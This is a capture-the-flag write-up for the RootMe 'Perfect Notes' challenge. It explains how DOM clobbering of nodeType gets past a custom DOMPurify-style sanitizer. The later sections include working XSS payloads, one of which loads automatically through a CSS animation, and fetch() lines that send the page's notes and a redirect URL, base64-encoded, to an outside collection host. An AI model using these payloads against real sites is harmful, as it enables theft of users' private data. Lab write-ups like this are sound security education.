






# CTF RootMe 10K - Perfect Notes

  

## 

## Discovering the website



We arrive on a landing page that asks us who we are. Not afraid that my username would be stolen, I've used Feelzor. We are redirected to `/notes/{guid}`.



Here, we can write our secret notes, that definitely aren't accessible by the outside world **\*coughs\***.

I tried multiple payloads to see what was possible and what wasn't.

| Payload                             | XSS Achieved ?                         |
| ----------------------------------- | -------------------------------------- |
| `<a href=javascript:alert(1)>`      | <span style="color: green;">Yes</span> |
| `` | <span style="color: red;">No</span>    |

Incredible, so far I've already achieved an XSS.. but wait, it requires user interaction. Oh no, my very security-aware user will never click on this link **\*sad pentester noise\***.

Fortunately, we can see what happens on the front-end, with a very simple `script` tag. It is in fact somehow long and I do not want to pollute my writeup, so I will just put the interesting part :

```js
// source: https://github.com/cure53/DOMPurify/blob/main/src/tags.js
this.ALLOWED_TAGS = ["a", "abbr", "acronym", "address", "area", "article", "aside", "audio", "b", "bdi", "bdo", "big", "blink", "blockquote", "body", "br", "button", "canvas", "caption", "center", "cite", "code", "col", "colgroup", "content", "data", "datalist", "dd", "decorator", "del", "details", "dfn", "dialog", "dir", "div", "dl", "dt", "element", "em", "fieldset", "figcaption", "figure", "font", "footer", "form", "h1", "h2", "h3", "h4", "h5", "h6", "head", "header", "hgroup", "hr", "html", "i", "img", "input", "ins", "kbd", "label", "legend", "li", "main", "map", "mark", "marquee", "menu", "menuitem", "meter", "nav", "nobr", "ol", "optgroup", "option", "output", "p", "picture", "pre", "progress", "q", "rp", "rt", "ruby", "s", "samp", "section", "select", "shadow", "small", "source", "spacer", "span", "strike", "strong", "style", "sub", "summary", "sup", "table", "tbody", "td", "template", "textarea", "tfoot", "th", "thead", "time", "tr", "track", "tt", "u", "ul", "var", "video", "wbr"];

// source: https://github.com/cure53/DOMPurify/blob/main/src/attrs.js
this.ALLOWED_ATTRIBUTES = ["accept", "action", "align", "alt", "autocapitalize", "autocomplete", "autopictureinpicture", "autoplay", "background", "bgcolor", "border", "capture", "cellpadding", "cellspacing", "checked", "cite", "class", "clear", "color", "cols", "colspan", "controls", "controlslist", "coords", "crossorigin", "datetime", "decoding", "default", "dir", "disabled", "disablepictureinpicture", "disableremoteplayback", "download", "draggable", "enctype", "enterkeyhint", "face", "for", "headers", "height", "hidden", "high", "href", "hreflang", "id", "inputmode", "integrity", "ismap", "kind", "label", "lang", "list", "loading", "loop", "low", "max", "maxlength", "media", "method", "min", "minlength", "multiple", "muted", "name", "nonce", "noshade", "novalidate", "nowrap", "open", "optimum", "pattern", "placeholder", "playsinline", "poster", "preload", "pubdate", "radiogroup", "readonly", "rel", "required", "rev", "reversed", "role", "rows", "rowspan", "spellcheck", "scope", "selected", "shape", "shadowroot", "size", "sizes", "span", "srclang", "start", "src", "srcset", "step", "style", "summary", "tabindex", "title", "translate", "type", "usemap", "valign", "value", "width", "xmlns", "slot"];
```

This tells us that the XSS is protected by a **whitelist** and not a **blacklist**. Even if I always advise everyone to use **whitelists**, I'm angry at the fact that this is a best practice and it will be hard to find a vulnerability here.

Indeed, the tags and attributes are from the latest version of `DOMPurify`, and I decided for now that it would be "safe", in the sense that I won't be able to find a tag that would easily allow me to achieve my XSS.

So I've been trying to find something in the closed Github issues that would inspire me for an exploit to make. However, since this is definitely not where I had to search, I found nothing (sorry if I spoiled something to you).

Now, back to the beginning.


## Dom Clobbering

Let's read a little bit more of the javascript we have on the website.

```js
// source: https://github.com/cure53/DOMPurify/blob/e0970d88053c1c564b6ccd633b4af7e7d9a10375/src/purify.js#L866
const _isClobbered = (elm) => {
  return (
    elm instanceof HTMLFormElement &&
      (typeof elm.nodeName !== 'string' ||
      typeof elm.textContent !== 'string' ||
      typeof elm.removeChild !== 'function' ||
      !(elm.attributes instanceof NamedNodeMap) ||
      typeof elm.removeAttribute !== 'function' ||
      typeof elm.setAttribute !== 'function' ||
      typeof elm.namespaceURI !== 'string' ||
      typeof elm.insertBefore !== 'function' ||
      typeof elm.hasChildNodes !== 'function')
    );
};

// Part of Sanitizer class
sanitize = (input) => {
  var currentNode = "";
  var dom_tree = new DOMParser().parseFromString(input, "text/html");

  var tag_name;
  var nodeIterator = document.createNodeIterator(dom_tree);
  while ((currentNode = nodeIterator.nextNode())) {

    switch(currentNode.nodeType) {
      case currentNode.ELEMENT_NODE:
        var tag_name   = currentNode.nodeName.toLowerCase();
        var attributes = currentNode.attributes;

        // avoid DOMClobbering
        if (_isClobbered(currentNode)) {
          currentNode.parentElement.removeChild(currentNode);

        // avoid mXSS
        } else if (currentNode.namespaceURI !== "http://www.w3.org/1999/xhtml") {
        currentNode.parentElement.removeChild(currentNode);

        // sanitize tags
        } else if (!this.ALLOWED_TAGS.includes(tag_name)){
          currentNode.parentElement.removeChild(currentNode);
        }

        // sanitize attributes
        for (let i=0; i < attributes.length; i++) {
          if (!this.ALLOWED_ATTRIBUTES.includes(attributes[i].name)){
            currentNode.parentElement.removeChild(currentNode);
            break;
          }
        }
    }
  }

  return dom_tree.documentElement.innerHTML;
}
```

We see two things here. The first is that there is a **blacklist** for DOM Clobbering that **isn't** taken from the main branch of DOMPurify (it is from commit `e0970d88053c1c564b6ccd633b4af7e7d9a10375`) and that unallowed tags or attributes, DOM Clobbering and mXSS all lead to the node being removed.

Remember the description? The important part is that it works on **Chromium-Based browsers**, I understood from that assessment that it **won't** work on Firefox. And what works wonderfully on Chromium and not on Firefox? Ding ding ding! That's our friend DOM Clobbering.

I took that as a proof I was on the right lead. Now for trying! I had no idea what DOM Clobbering was, but I was certain I could find a way to exploit it. I read this [Portswigger post](https://portswigger.net/web-security/dom-based/dom-clobbering "https://portswigger.net/web-security/dom-based/dom-clobbering") and I thought that I could reuse its payloads for this challenge.

Now, we have a DOM Clobbering protection, we will necessarily be blocked at some point. So I read what wasn't allowed: `attributes`, `removeChild`... this is not good news. But the great news is that `parentElement` is **not** part of the blacklist!

```html
<form onclick=alert(1)><input id=parentElement>Click me
```

This is my first payload, and it definitely works! The DOM Clobbering is in effect, **but** we have an error that prevents from executing the rest of the script (which is "add the node to the page" - *not shown on the snippet above*, and that's problematic).

`Uncaught DOMException: Failed to execute 'removeChild' on 'Node': The node to be removed is not a child of this node.`

I've tried to chain DOM Clobbering, but this is not working any better.

```html
<form onclick=alert(1) name=parentElement><input id=removeChild>sqd
```

`Uncaught TypeError: Cannot read properties of null (reading 'removeChild')`

After many other tries (only variations of these two payloads, nothing interesting), I've decided that it was time to think again. Take a deep breath, and let's read the JS code again.


Maybe I can try to use DOM Clobbering to override `_isClobbered`? Well I would be able to, but it wouldn't be a function anymore, and it is defined with the `const` keyword, so it's not writable. 

Override `currentNode`? It's not a global variable so it's theoretically not possible. That's when I thought I had been on the wrong path since the beginning that I found what would unblock me: `switch(currentNode.nodeType)`.

**WELL OF COURSE!**

## On the path to victory

It is now clear. `nodeType` is equal to 1 (value of `ELEMENT_NODE`) when it is an `HTMLElement`, which is exactly what we can override **without** creating an error.

```html
<form onclick=alert(1)><input id=nodeType>Click me
```



*(notice that my titles were very clear, I would without any doubt click on such a note)* /s


With the help of [Portswigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet "https://portswigger.net/web-security/cross-site-scripting/cheat-sheet"), I tried to find a payload that would autoload with the `form` tag. And fortunately, the `style` tag was allowed!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(1)"><input id=nodeType></form>
```

This payload will autoload our `alert(1)`, and this works!

## The final boss

I've been hiding a little detail since the beginning for now: our notes are stored in an `<iframe>`, as shown in this js snippet.

```js
// sanitize content
var s = new Sanitizer();
var note_body = document.createElement("iframe");
note_body.setAttribute("frameBorder", 0);
// note_body.setAttribute("sandbox", "");
note_body.setAttribute("width", "100%");
note_body.srcdoc = `${s.sanitize(body)}`;
```

This is problematic since we may have trouble accessing cookies, or the page HTML content.

I've tried to see if I could access the parent HTML, and it is possible.

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="alert(parent.document.documentElement.innerHTML)"><input id=nodeType></form>
```



Yes we can, so let's retrieve the notes of the admin!

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(parent.document.querySelector('#notes-list').innerHTML)}`)"><input id=nodeType></form>
```

And of course, we can only see **our** notes. The admin notes are hidden somewhere else. We can't steal their cookies (I've tried and they have none, or they have the `httpOnly` field).

I've tried to go to the main page again, and noticed I am immediately redirected to `/notes/{guid}` again. Isn't this our solution?

```html
<style>@keyframes x{}</style><form style="animation-name:x" onanimationend="fetch('/notes').then((res) => {fetch(`https://putsreq.com/02BNpZoO9N81DAx0ZvF2?content=${btoa(res.url)}`)});"><input id=nodeType></form>
```

We receive a link that contains another GUID than ours: `bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`. When going to `/notes/bb9ccf6f-2ec7-4b14-8a6c-6df064ae18a7`, we can see the admin notes.


**Flag: `RM{T4k3_C4R3_0f_Sh4d0w_D0M_Wh1T_S4n1T4Z3R}`**
